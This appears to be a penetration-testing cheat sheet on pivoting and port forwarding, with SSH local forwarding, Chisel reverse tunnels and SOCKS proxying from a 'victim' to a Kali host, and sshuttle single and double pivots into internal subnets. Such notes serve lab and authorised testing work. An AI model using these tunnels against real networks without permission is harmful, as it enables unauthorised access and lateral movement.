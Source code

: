 # Pivoting/Port Forwarding

## SSH

```
ssh user@10.10.11.208 -L 3000:127.0.0.1:3000
```

## Chisel

```python
./chisel server -p 7777 --reverse # Kali machine
./chisel client 10.10.14.38:7777 R:8000:127.0.0.1:8000 # on Victim

# on kali
chisel server -p 8000 --reverse
# on victim
chisel client <kali IP>:8000 R:socks
# on kali (choose one)
socks4 127.0.0.1 9050 # more accurate but slower
socks5 127.0.0.1 1080 # faster but less accurate (might miss ports w/ nmap)
prepend further commands with proxychains
```

## SSHuttle

```python
# single pivot
sudo sshuttle -r sean@10.11.1.251 10.1.1.0/24
# double pivot
sudo sshuttle -r sean@10.11.1.251 10.1.1.0/24
sudo sshuttle -r mario@10.1.1.1:222 10.3.3.0/24
```

{% embed url="https://pentest.coffee/active-directory-lateral-movement-and-post-exploitation-cheat-sheet-3170982a7055" %}
